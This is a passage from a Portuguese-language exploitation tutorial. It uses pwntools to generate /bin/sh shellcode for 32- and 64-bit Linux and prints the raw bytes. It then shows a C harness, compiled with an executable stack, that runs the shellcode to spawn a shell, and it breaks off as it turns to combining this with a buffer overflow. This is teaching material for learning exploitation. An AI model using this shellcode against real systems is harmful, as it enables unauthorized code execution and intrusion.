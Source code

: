 Testando no interpretador python:

```text
>>> from pwn import *
>>> context.arch = 'i386'
>>> context.bits = 32
>>> asm(shellcraft.sh())
b'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'
```

No caso, o shellcode acima será para sistemas em 32-bits pois definimos `context.arch` como `i386` e `context.bits` como `32`.

Podemos criar um para sistemas 64-bits definindo `context.arch` como `amd64` e `context.bits` como `64`:

```text
>>> from pwn import *
>>> context.arch = 'amd64'
>>> context.bits = 64
>>> asm(shellcraft.sh())
b'jhH\xb8/bin///sPH\x89\xe7hri\x01\x01\x814$\x01\x01\x01\x011\xf6Vj\x08^H\x01\xe6VH\x89\xe61\xd2j;X\x0f\x05'
```

Se quisermos ver o número de bytes que esse shellcode ocupa, podemos usar `len(asm(shellcraft.sh()))`.

Podemos ver que o tamanho do shellcode de 32-bits é 44 bytes e o tamanho do de 64-bits é 48 bytes. Há shellcodes menores que esses pela internet, então se o espaço que você tiver para escrever o shellcode for menor que isso, você pode procurar por um desses ou fazer o seu próprio.

Se copiarmos esses bytes para nosso testador, não irá funcionar, pois do jeito que está apresentado nessa string de bytes, conjunto de bytes como "\x814", que deveria ser interpretado como o caractere "\x81" + o caractere "4" será interpretado pelo compilador em C como caracteres cujos hexadecimais são "\x814". Para contornar esse problema, podemos separá-los em várias strings, por exemplo, transformando `"\x01\x01\x814$\x01\x01\x01"` em `"\x01\x01\x81" "4$\x01\x01\x01"`. Dessa forma, no nosso testador, o shellcode para 32-bits fica:

```c
void (*shellcode)() = "jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x81""4$ri\x01\x01""1\xc9Qj\x04Y\x01\xe1Q\x89\xe1""1\xd2j\x0bX\xcd\x80";

int main(void) {
    (*shellcode)();
    return 0;
}
```

Compilando novamente com `gcc testador.c -o testador -z execstack -m32 -Wno-incompatible-pointer-types` e executando, podemos ver que conseguimos uma shell `sh`. Podemos testar alguns comandos como o `ls` ou sair dessa shell com Ctrl+D.

Agora vamos juntar o buffer overflow com o shellcode. Para isso, vamos criar um programa com um buffer overflow. O programa será o seguinte:

